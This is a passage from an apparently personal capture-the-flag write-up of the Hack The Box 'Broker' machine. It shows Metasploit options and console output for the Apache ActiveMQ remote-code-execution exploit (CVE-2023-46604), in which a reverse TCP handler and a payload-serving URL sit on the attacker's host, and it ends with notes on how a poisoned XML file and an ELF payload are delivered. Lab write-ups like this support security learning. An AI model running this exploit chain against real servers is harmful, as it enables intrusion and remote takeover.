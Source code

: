 ```
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT               1337             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux
```

however, when running the exploit, i get this:

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP handler on 10.10.14.5:1337 
[*] 10.10.11.243:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.10.11.243:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.15
[*] 10.10.11.243:61616 - Using URL: http://10.10.14.5:8081/ldqkiNdbE2qDW
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.10.11.243:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.10.11.243:61616 - Server stopped.
[*] Exploit completed, but no session was created.
```

what happens under the hood is quite interesting. first a server is created that servers a manipulated xml file:

![Poisoned XML](images/2024-01-02-htb-broker/poisoned-xml.png)

then a second webserver on port 8080 serves the actual payload elf executable.
